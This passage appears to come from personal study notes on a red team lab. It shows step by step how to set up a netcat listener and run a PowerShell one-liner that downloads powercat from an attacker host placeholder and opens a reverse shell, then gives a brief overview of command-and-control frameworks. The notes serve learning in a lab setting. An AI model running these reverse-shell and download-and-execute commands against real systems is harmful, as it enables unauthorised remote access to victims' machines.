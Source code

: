 ##### 9. Setup the netcat listener that will receive the reverse shell on the Attacker's machine:
`$ nc -lvnp 1337`

![](/assets/img/Pasted image 20221226234348.png)

##### 10. From the victim's machine, download the payload and execute it using `PowerShell` payload as follows:
```shell-session
C:\Users\thm\Desktop> powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"
```

	- Note that the way this happens is probably a link was clicked by the user/victim forcing the machine to download this file from this link and then execute these commands upon download which then establishes the reverse shell connection.
	- The question is, how can clicking a link(phishing) leads to code execution exactly? Or do attackers exploit some vulnerability in order to do this? Let's see...

<u>Victim's machine POV</u>:

![](/assets/img/Pasted image 20221226234157.png)

	- How can you as the Attacker, make the victim machine download something or execute some PowerShell commands EVEN BEFORE you gain a shell on their machine/compromise them?

<u>Attacker's terminal after the command executed on the victim's machine</u>:

![](/assets/img/Pasted image 20221226234447.png)

	- We got a simple reverse shell with cmd.exe.

![](/assets/img/Pasted image 20221226234555.png)

------------
# Command and Control
<u>Example frameworks</u>:
- PowerShell Empire
- Cobalt Strike
- Metasploit

#### What is C2?
- Post-exploitation frameworks. We use these kind of frameworks with the assumption that we have the initial access already on the compromised machines.
- What it provides:

		- Generate various malicious payloads
		- Enumerate the compromised machine/networks
		- Perform privilege escalation and pivoting
		- Lateral movement
		- etc.

- Note that C2 frameworks are also used for collaboration in between Red Team Operators and other entities in the Red Team.
